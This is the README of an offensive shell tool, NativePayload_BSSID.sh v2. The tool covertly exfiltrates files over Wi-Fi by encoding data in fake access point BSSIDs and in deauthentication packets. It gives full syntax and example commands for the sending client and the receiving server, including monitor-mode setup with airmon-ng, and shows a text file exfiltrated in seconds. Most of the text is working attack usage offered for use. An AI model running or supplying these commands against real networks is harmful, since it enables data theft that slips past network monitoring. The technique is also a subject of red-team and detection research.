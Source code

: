 # NativePayload_BSSID.sh v2

Exfiltration via Wireless DeAuthentication Packets from Client to Server on AIR (without user-pass or Wifi Connection & very fast)

Article/Pdf and New video will Publish here soon...

Video[1] , NativePayload_BSSID.sh v2 (step by step) : https://www.youtube.com/watch?v=rg-O4RKt9OA

as you can see in this "Picture 1", with this switch "help" you can see Help information : ./NativePayload_BSSID.sh help 

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20help.png)
Picture 1:

# NativePayload_BSSID.sh (help):  

   NativePayload_BSSID.sh v1 Syntax: 

    Step1 (Client Side): 
    Syntax            :./NativePayload_BSSID.sh -f [text-file] [Fake-AP-Name] [MonitorMode-Interface]
    Example [System A]:./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

    Step2 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -s [Wifi-Interface] [Exfil-Dump-file]
    Example [System B]:./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt

    Description: with Step1 (system A) you will inject bytes for (mytext.txt) file to BSSID for Fake AP in this case (myfakeAP) ,
    with Step2 on (system B) you can have this text file via Scanning Fake AP on AIR by Wireless traffic (Using iwlist tool)
    Note : before step1 you should make Monitor-Mode Interface (WlanXmon) by this command for example : airmon-ng start wlan3 
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax I: 

    Step1 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -deauthdumps [FakeAP-ESSID] [MonitorMode-Interface] [Wifi-Channel] [FakeAP-BSSID]
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19

    Step2 (Client Side):
    Syntax            :./NativePayload_BSSID.sh -exfildeauth [text-file] [Target-FakeAP-BSSID] [Wifi-Interface] [Wifi-Channel] [dbg]/[fast]/[faster]
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

    Description: with Step1 (system B) you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
    tool in this step in server side , 
    Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
    with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
    note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax II:
   
    (Server/Client Side):
    Syntax :./NativePayload_BSSID.sh -exfilserver
    Description: for more information please read PDF/Article on Github... (soon)
    --------------------------------------------------------

--------------------------------------------------------------------------------------

# NativePayload_BSSID.sh v2 
# and DeAuth Method (step by step): 

Step 1 :
with switch "-deauthdumps" you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
tool in this step in server side.

Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
 
    Step1 (Server Side):
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step1.png)

Step 2 :
with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.

    Step2 (Client Side):
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step2.png)

as you can see in "Picture 3" after 5 seconds that text file "3.txt" Exfiltrated from client to server on AIR ,(very simple).

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step4.png)

Article and Pdf File will Publish here soon...

Video STEP BY STEP : https://www.youtube.com/watch?v=rg-O4RKt9OA

